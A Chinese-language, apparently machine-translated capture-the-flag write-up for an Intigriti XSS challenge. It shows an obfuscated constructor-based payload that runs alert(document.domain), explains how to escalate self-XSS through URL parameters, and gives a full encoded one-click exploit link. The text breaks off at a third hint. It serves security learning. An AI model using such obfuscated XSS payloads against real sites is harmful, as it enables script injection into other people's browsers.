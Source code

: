 翻译过来就是:

```
[]["constructor"]["constructor"]`${"alert(document.domain)"}```
```

# 不断升级的自我 XSS

为了升级自我 XSS，需要做一点猜测工作，但这应该没那么难。有效负载可以通过 GET 或 POST 请求在`b`或`c`参数中发送(这些参数是受这些参数影响的元素的 id)。有效载荷应该被编码，因为否则+将被作为空格处理。

# 无线一键通

第一步:[点击此处](https://challenge-0521.intigriti.io/captcha.php?c=%5B%5D%5B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B19%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%5D%5B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B19%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B16%5D%5D%60%24%24%7B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B20%5D%2B%5Be%2B1%5D%5B0%5D%5B21%5D%2B%60e%60%2B%5Be%2B1%5D%5B0%5D%5B16%5D%2B%5Be%2B1%5D%5B0%5D%5B6%5D%2B%5B%5B%5D%5B%5Be%2B1%5B0%5D%5D%5B0%5D%5B32%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B33%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B34%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B36%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B28%5D%2B%5Be%2B1%5D%5B0%5D%5B23%5D%2B%5Be%2B1%5D%5B0%5D%5B4%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5Be%2B1%5D%5B0%5D%5B26%5D%2B%60.%60%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B1%5D%5B0%5D%5B1%5D%2B%5Be%2B1%5D%5B0%5D%5B23%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B20%5D%2B%5B%5B%5D%5B0%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B1%5D%5B0%5D%5B25%5D%2B%5B%5B%5D%5B%5Be%2B1%5B0%5D%5D%5B0%5D%5B32%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B33%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B34%5D%2B%5Be%2B1%5B0%5D%5D%5B0%5D%5B36%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60)打开网页，输入栏
预填有效载荷第二步:点击提交

# 解释技巧

## 提示 1

这是对接收必要字符所需的字母`e`的引用。如果你点击了视频，你会听到蕾哈娜唱“e e e e e e…

## 提示 2

这里暗示了有效载荷中使用的方括号和花括号。

## 提示 3
